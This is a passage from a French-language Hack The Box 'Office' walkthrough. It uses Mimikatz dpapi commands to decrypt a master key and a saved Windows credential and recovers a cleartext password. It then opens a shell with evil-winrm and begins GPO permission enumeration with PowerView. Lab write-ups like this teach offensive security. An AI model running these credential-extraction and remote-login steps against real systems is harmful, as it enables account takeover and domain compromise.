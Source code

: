 Supposons que nous ne sachions pas quelle clé principale a été utilisée pour crypter/décrypter un fichier d'identification. Nous pouvons utiliser Mimikatz pour trouver la bonne clé.

```
dpapi::cred /in:C:\Users\PPotts\AppData\Roaming\Microsoft\Credentials\84F1CAEEBF466550F4967858F9353FB4
```
![Mimikatz command to identify the correct master key used](/images/HTB-Office/master-key-used.png)

---

Nous commençons par décrypter la clé utilisée par deux fichiers (celle se terminant par `47eb`).

```
dpapi::masterkey /in:"C:\Users\PPotts\AppData\Roaming\Microsoft\Protect\S-1-5-21-1199398058-4196589450-691661856-1107\191d3f9d-7959-4b4d-a520-a444853c47eb" /rpc
```

![Mimikatz command to decrypt master key](/images/HTB-Office/decrypted-master-key.png)

Avec la clé principale décryptée, nous décryptons le fichier d'identification et récupérons le mot de passe `H4ppyFtW183#`.

```
dpapi::cred /in:"C:\Users\PPotts\AppData\Roaming\Microsoft\Credentials\84F1CAEEBF466550F4967858F9353FB4" /masterkey:87eedae4c65e0db47fcbc3e7e337c4cce621157863702adc224caf2eedcfbdbaadde99ec95413e18b0965dcac70344ed9848cd04f3b9491c336c4bde4d1d8166
```

![hhogan password recovered](/images/HTB-Office/HHogan-password.png)

Nous nous connectons via evil-winrm sous le nom de `hhogan`.

```
evil-winrm -u "HHogan" -p "H4ppyFtW183#" -i dc.office.htb
```

![hhogan shell via evil-winrm](/images/HTB-Office/HHogan-shell.png)

## Elévation de Privilèges

Nous utilisons `Get-GPO -All` pour lister toutes les GPOs du domaine. Deux d'entre elles attirent notre attention mais nous devons vérifier si cet utilisateur a les permissions d'interagir avec elles. Nous notons également leurs IDs.

![Default domain policy](/images/HTB-Office/Default-Domain-Policy.png)

![Default DC domain policy](/images/HTB-Office/Default-DC-policy.png)

Avec [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) nous énumérons les permissions GPO. Après avoir téléchargé le script, nous devons importer le module pour être en mesure de l'utiliser.

```
Import-Module ./powerview.ps1
Get-NetGroup -name "GPO Managers"
```
